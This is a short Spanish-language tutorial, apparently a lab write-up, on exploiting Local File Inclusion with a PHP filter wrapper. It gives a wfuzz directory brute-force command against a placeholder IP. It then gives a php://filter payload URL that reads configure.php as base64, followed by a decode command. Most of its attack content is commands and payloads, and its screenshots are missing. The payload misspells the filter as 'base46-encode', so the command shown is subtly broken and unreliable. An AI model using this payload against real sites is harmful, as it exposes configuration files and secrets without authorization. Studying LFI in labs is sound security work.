

# LFI: PHP Wrapper 🔐

La página web que vulneraremos es:



---

Para encontrar nuevos archivos **php** usaremos `wfuzz`

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://<IP>/FUZZ
```

**Output**

<p align="center">
    
</p>

---

Si colocamos literalmente esto `http://<IP>/configure.php` no nos mostrará el contenido del archivo, por lo cual, usaremos un wrapper para obtener el contenido en **base64** y luego decodearlo. 🔑

* **URL** `http://<IP>/index.php?languaje=php://filter/read=convert.base46-encode/resource=configure`

<p align="center">
    
</p>

---

Ahora decodeamos el contenido con el comando `echo "[Data base64]" | base64 -d; echo`

<p align="center">
    
</p>